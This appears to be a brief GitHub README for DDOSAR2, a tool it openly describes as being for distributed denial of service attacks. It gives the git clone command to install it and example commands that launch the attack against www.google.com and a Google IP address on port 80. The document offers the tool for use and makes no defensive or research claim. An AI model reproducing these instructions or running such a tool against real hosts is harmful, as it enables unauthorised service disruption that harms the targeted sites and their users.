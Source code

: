 # DDOSAR2
this tool for  distributed denial of service attack(DDOS ATTACK)


# how you install the tool 

git clone https://github.com/Oseid/DDOSAR2.git


# how useing tool 

cd DDOSAR2/


./DDOSAR2 victim website or ip and port 80 

for example 


./DDOSAR2 www.google.com 80 


or 


./DDOSAR2 173.194.44.81 80 



# that's all 
thanks you for using

Good Day...:)

